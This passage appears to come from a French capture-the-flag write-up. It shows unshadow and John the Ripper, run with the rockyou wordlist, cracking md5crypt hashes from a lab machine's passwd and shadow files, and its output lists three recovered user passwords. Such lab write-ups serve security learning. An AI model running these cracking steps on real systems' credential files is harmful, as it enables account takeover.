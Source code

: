Notre dictionnaire préféré est appelé à la rescousse : Rockyou.

```console
root@blinils:~# unshadow passwdCTF6.txt shadowCTF6.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
beckham          (molly)
fred1982         (fred)
squirrel3        (linda)
--snip--
Session completed

root@blinils:~# john db --show
linda:squirrel3:501:501::/home/linda:/bin/bash
fred:fred1982:502:502::/home/fred:/bin/bash
molly:beckham:503:503::/home/molly:/bin/bash

3 password hashes cracked, 3 left
```
